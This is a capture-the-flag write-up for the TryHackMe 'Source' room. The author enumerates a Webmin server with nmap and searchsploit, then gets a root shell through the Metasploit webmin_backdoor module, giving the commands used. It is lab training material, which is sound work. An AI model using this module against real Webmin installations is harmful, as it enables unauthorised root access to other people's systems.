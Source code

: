 # Source CTF [TryHackMe](https://tryhackme.com/room/source)

---

![Logo](./.assets/logo.jpg)

---

## Index
- [Enumeration](#enumeration)
- [Finding vunerabilities](#finding-vunerabilities)
- [Exploit with msfconsole](#exploitation)
- [Final Thoughts](#final-thoughts)
---

```bash
$ export IP=10.10.38.224
```

---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports
```
22 ssh
10000 http
```

---

### Finding vunerabilities

Navigating to `https://$IP:10000` (note the https) we notice it is a webmin site. And using `searchsploit` reveals that it has multiple vunerabilities.

![searchsploit](./.assets/searchsploit.png)

I didn't know what version it was and therefore I went from the largest and worked down.

I first try a shell script I find online enabling me to do rce; which is unsuccessful.
I then tried another rce script written in another language; a failure.

At this point I decided I had better luck if I did some basic research about this box so I searched `webmin exploits` (Creative, I know) and found [this](https://www.rapid7.com/db/modules/exploit/unix/webapp/webmin_backdoor/) interesting article about a backdoor that affects versions 1.89 through till 1.92.

---

### Exploitation

Now this was using a metasploit package `exploit/unix/webapp/webmin_backdoor` which has been depreciated/replace by `exploit/linux/http/webmin_backdoor` which I used instead.

Then it was as simple as:

```bash
set LHOST $MY_IP
set RHOST $IP
set SSL true
exploit
```

And now we have a shell which root access! I didn't get a nice terminal though and I could have created a proper reverse shell but instead I did

```bash
cat /root/root.txt
ls /home
cat /home/dark/user.txt
```

And viola! We have the flags.

---

### Final Thoughts

Super easy room and that has a bit extra focus on researching outside of the usual scope of these rooms.

---

![](./.assets/banner.png)
